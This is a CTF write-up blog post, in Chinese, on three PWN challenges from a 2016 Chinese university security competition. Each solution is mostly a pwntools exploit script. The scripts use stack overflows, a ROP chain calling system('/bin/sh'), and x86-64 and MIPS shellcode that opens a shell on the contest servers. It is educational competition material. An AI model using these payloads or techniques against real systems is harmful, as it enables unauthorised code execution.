 ```yaml
---
layout: post
title: 全国大学生信息安全竞赛writeup（PWN）
categories:
  - 安全
url: 238.html
id: 238
comments: false
date: 2016-07-11 12:01:09
tags:
---
```


### PWN1:(Careful)

明显的栈溢出，通过指定v3可以覆盖返回地址，想要构造shellcode太短了，只能写10个字节，注意到i也在栈上，所以可以重置计数器， ![](http://skysider.com/wp-content/uploads/2016/07/111-205x300.png) 最后exp如下：

#!/usr/bin/env python
from pwn import *

DEBUG=0
if DEBUG:
    p = process("./bin/A44DD70F78267A1CCBEE12FE0D490AD6")
    context.log_level = 'debug'
else:
    p = remote("106.75.37.29", 10000)


def resetCounter():
    p.recvuntil("input index:")
    p.sendline("28")
    p.recvuntil("input value:")
    p.sendline(str(0x0))

def writeAddress(start, addr):
    data = hex(addr)\[2:\].rjust(8,'0')
    print data
    p.recvuntil("input index:")
    p.sendline(str(start))
    p.recvuntil("input value:")
    p.sendline(str(int(data\[6:\],16)))

    p.recvuntil("input index:")
    p.sendline(str(start+1))
    p.recvuntil("input value:")
    p.sendline(str(int(data\[4:6\],16)))

    p.recvuntil("input index:")
    p.sendline(str(start+2))
    p.recvuntil("input value:")
    p.sendline(str(int(data\[2:4\],16)))

    p.recvuntil("input index:")
    p.sendline(str(start+3))
    p.recvuntil("input value:")
    p.sendline(str(int(data\[:2\],16)))

def setCounter():
    p.recvuntil("input index:")
    p.sendline("28")
    p.recvuntil("input value:")
    p.sendline(str(0x10))


def exp():
    writeAddress(44, 0x08048420) #scanf
    writeAddress(48, 0x080486ae) #pop pop ret
    resetCounter()

    writeAddress(52, 0x080486ed) # %d
    writeAddress(56, 0x0804a200) # /bin
    resetCounter()

    writeAddress(60, 0x08048420) #scanf
    writeAddress(64, 0x080486ae) #pop pop ret
    resetCounter()

    writeAddress(68, 0x080486ed) #%d
    writeAddress(72, 0x0804a204) #/sh
    resetCounter()

    writeAddress(76, 0x080483e0) #plt@system
    writeAddress(84, 0x0804a200)

    raw_input("bp2")
    setCounter()

    p.sendline(str(u32('/bin')))
    p.sendline(str(u32('/sh\\x00')))

    p.interactive()

exp()

### PWN2:(Cis2)

还是栈溢出，注意到handle\_op\_code中没有对safe_stack 进行边界检查，可以溢出返回地址，将payload放到全局数组buffer里，跳转到buffer即可。 ![](http://skysider.com/wp-content/uploads/2016/07/QQ%E5%9B%BE%E7%89%8720160711154044-300x247.png) Exp如下：

#!/usr/bin/env python
from pwn import *

DEBUG=0
if DEBUG:
    p = process("./bin/0A77F6D4BD5CB2700A89F9C6F8D8F116")
else:
    p = remote("106.75.37.31", 23333)

def exp():
    p.recvuntil("Fight!\\n")
    for i in range(30):
        p.sendline(str(0x602088))

    p.sendline('m')
    p.sendline('w')
    p.sendline('w')
    p.sendline('w')
    p.sendline('-')
    raw_input("bp")
    payload="\\x31\\xc0\\x48\\xbb\\xd1\\x9d\\x96\\x91\\xd0\\x8c\\x97\\xff\\x48\\xf7\\xdb\\x53\\x54\\x5f\\x99\\x52\\x57\\x54\\x5e\\xb0\\x3b\\x0f\\x05"
    p.sendline('q'+'a'*7+payload)

    p.interactive()


exp()

### PWN3 mips

第一次接触mips架构的题目，汇编代码看了半天，有个点没get到，最后没有解出来，后来看了别人的wp之后，才发现真的就差一点，栈溢出是非常明显的 ![](http://skysider.com/wp-content/uploads/2016/07/QQ图片20160711153533-300x149.png) 并且程序输入某个值可以打印处栈地址，而且没开nx，后面就直接覆盖返回地址为stack上放置payload的地址即可。

from pwn import *

#context.log_level = 'debug'
#context.update(arch='mips', endian='little')
p = remote("106.75.32.60", 10000)

p.recvuntil("help.\\n")


p.sendline('2057561479')
p.recvuntil("0x")
stack_addr = int(p.recv(8), 16)

print "stack\_addr =>", hex(stack\_addr)
p.sendline('1'*0x70+p32(stack_addr+8))
p.recv()

payload = 'a'*8
payload += "\\xff\\xff\\x10\\x04"
payload += "\\xab\\x0f\\x02\\x24"
payload += "\\x55\\xf0\\x46\\x20"
payload += "\\x66\\x06\\xff\\x23"
payload += "\\xc2\\xf9\\xec\\x23"
payload += "\\x66\\x06\\xbd\\x23"
payload += "\\x9a\\xf9\\xac\\xaf"
payload += "\\x9e\\xf9\\xa6\\xaf"
payload += "\\x9a\\xf9\\xbd\\x23"
payload += "\\x21\\x20\\x80\\x01"
payload += "\\x21\\x28\\xa0\\x03"
payload += "\\xcc\\xcd\\x44\\x03"
payload += "/bin/sh"

p.sendline(payload)
p.recv()

p.sendline('exit')
p.interactive()